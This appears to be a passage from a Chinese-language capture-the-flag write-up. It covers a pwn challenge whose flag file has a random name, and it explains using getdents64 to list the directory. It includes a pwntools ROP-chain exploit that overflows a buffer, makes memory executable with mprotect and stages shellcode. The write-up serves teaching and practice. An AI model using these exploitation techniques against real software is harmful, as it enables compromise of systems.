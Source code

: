```bash
#!/bin/bash

rm /home/ctf/flag*
cp /flag "/home/ctf/flag`head /dev/urandom |cksum |md5sum |cut -c 1-20`"
cd /home/ctf
exec 2>/dev/null
/usr/sbin/chroot --userspec=1000:1000 /home/ctf timeout 300 ./vuln
```

[![](assets/1698893341-60e9ddfc5c8b556932b4f779087896b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121831-b8ac3c4e-73b6-1.png)

可以看到 flag 文件后面跟了长度 20 的随机字符串，也就是说我们没办法通过传统 orw 方式读取 flag，需要得知存放 flag 文件的文件名

这时候可以利用`getdents64`​函数来获取目录下的文件

> 参数一：fd 指针
> 
> 参数二：写入的内存区域
> 
> 参数三：4096
> 
> 功能：把当前文件目录下的文件名写入参数二指向的内存区域

[ls 命令是怎样实现的，getdents64，linux-2.6.27.5](https://blog.csdn.net/cnbird2008/article/details/11629095)

字符串本质上是一个地址，open 和 getdents64 函数的目录参数也是地址

```bash
#mproject(bss,0x1000,7)
p.sendlineafter('size?\n','-1')
pl = b'a'*0x38+p64(rdi)+p64(bss)+p64(rsi_r15)+p64(0x1000)+p64(0)+p64(rdx)+p64(7)+p64(mprotect)+p64(main)
p.send(pl)

#read(0,bss+0x200,0x100)
p.sendlineafter('size?\n','-1')
pl = b'a'*0x38+p64(rdi)+p64(0)+p64(rsi_r15)+p64(bss+0x200)+p64(0)+p64(rdx)+p64(0x100)+p64(read_addr)+p64(bss+0x200)

p.send(pl)
p.recv()
```

[![](assets/1698893341-f6f5887f00c78de5767da2482b8a9d02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121852-c550baa6-73b6-1.png)

[![](assets/1698893341-1561263e8bce7d9051deb6064542f515.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121858-c8af450a-73b6-1.png)
